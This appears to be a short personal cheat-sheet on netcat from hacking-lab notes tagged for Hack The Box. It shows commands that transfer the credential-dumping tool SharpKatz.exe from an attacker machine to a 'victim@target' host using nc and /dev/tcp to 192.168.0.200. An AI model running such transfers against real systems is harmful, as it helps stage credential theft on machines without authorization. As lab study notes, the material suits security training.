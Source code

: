 ```yaml
---
title:  "Netcat"
tags:
  - cs/hacking
  - cs/hacking/htb
programming-languagues:
created: 2022-07-11
---
```

Networking utility for reading from and writing to network connections using TCP or UDP.

## Listening
```bash
victim@target:~$ nc -l -p 8080 > SharpKatz.exe
```

```bash
victim@target:~$ cat < /dev/tcp/192.168.0.200/8080 > SharpKatz.exe
```

## Sending
```bash
me@hanato:~$ nc -q 0 192.168.0.200 8080 < SharpKatz.exe
```